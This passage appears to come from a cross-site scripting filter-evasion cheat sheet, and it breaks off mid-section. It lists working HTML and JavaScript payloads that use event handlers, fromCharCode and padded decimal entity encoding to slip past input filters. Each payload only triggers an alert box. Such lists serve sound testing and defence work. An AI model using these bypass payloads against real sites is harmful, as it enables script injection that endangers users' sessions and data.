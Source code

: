 ```
    <IMG """><SCRIPT>alert("XSS")</SCRIPT>"\> 
```
 (Originally found by Begeek, but it was cleaned up and shortened to work
in all browsers) 
### fromCharCode 
If the system does not allow quotes of any kind, you can `eval()` a `fromCharCode` in JavaScript to create any XSS vector you need:
 
```
    <a href="javascript:alert(String.fromCharCode(88,83,83))">Click Me!</a> 
```
 ### Default SRC Tag to Get Past Filters that Check SRC Domain
 This attack will bypass most SRC domain filters. Inserting JavaScript in
an event handler also applies to any HTML tag type injection using elements like Form, Iframe, Input, Embed, etc. This also allows the
substitution of any relevant event for the tag type, such as `onblur` or `onclick`, providing extensive variations of the injections listed here:
 
```
    <IMG SRC=# onmouseover="alert('xxs')"> 
```
 (Submitted by David Cross and edited by Abdullah Hussam)
 ### Default SRC Tag by Leaving it Empty
 
```
    <IMG SRC= onmouseover="alert('xxs')"> 
```
 ### Default SRC Tag by Leaving it out Entirely
 
```
    <IMG onmouseover="alert('xxs')"> 
```
 ### On Error Alert
 
```
    <IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img> 
```
 ### IMG onerror and JavaScript Alert Encode
 
```
    <img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041"> 
```
 ### Decimal HTML Character References
 Since XSS examples that use a `javascript:` directive inside an `<IMG`
tag do not work on Firefox this approach uses decimal HTML character references as a workaround:
 
```
     <a href="&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;">Click Me!</a> 
```
 ### Decimal HTML Character References Without Trailing Semicolons
 This is often effective in bypassing XSS filters that look for the
string `&\#XX;`, since most people don\'t know about padding - which can be used up to 7 numeric characters total. This is also useful against
filters that decode against strings like `$tmp\_string =\~ s/.\*\\&\#(\\d+);.\*/$1/;` which incorrectly assumes a
semicolon is required to terminate a HTML encoded string (This has been seen in the wild):
 